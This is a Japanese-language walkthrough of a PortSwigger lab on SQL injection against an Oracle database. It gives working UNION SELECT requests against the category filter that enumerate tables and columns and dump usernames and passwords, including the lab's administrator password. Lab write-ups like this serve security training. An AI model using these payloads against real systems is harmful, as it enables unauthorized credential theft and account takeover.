 # SQL インジェクション攻撃、Oracle 上のデータベースの内容をリストする

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle  
このラボには、製品カテゴリ フィルターに SQL インジェクションの脆弱性が含まれています。クエリの結果はアプリケーションの応答で返されるため、UNION 攻撃を使用して他のテーブルからデータを取得できます。

- 1. BurpSuite を起動して Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. GET /filter?category=XXXXX を send to repeater します

* 4. リクエストにテーブル一覧を取得する SQL を付加して送信します。
     テーブル一覧が取得できます。

```
GET /filter?category=Lifestyle'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

- 5.テーブル一覧からユーザー情報が格納されているテーブルを見つけてリクエストを送信します

```
GET /filter?category=Lifestyle'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XLRQBD'-- HTTP/2
```

レスポンスからカラム情報を取得します

```html
<th>PASSWORD_RPORJF</th>
<th>USERNAME_RNIEYR</th>
```

- 6. カラムが取得できたので、ユーザー名とパスワードの一覧を取得するリクエストを送信します

```
GET /filter?category=Lifestyle'+UNION+SELECT+USERNAME_RNIEYR,+PASSWORD_RPORJF+FROM+USERS_XLRQBD-- HTTP/2
```

レスポンス

```html
<th>administrator</th>
<td>3cwkf01h0xcxrt9h5bdh</td>
```

- 7 . 取得した情報を元に管理者でログインします
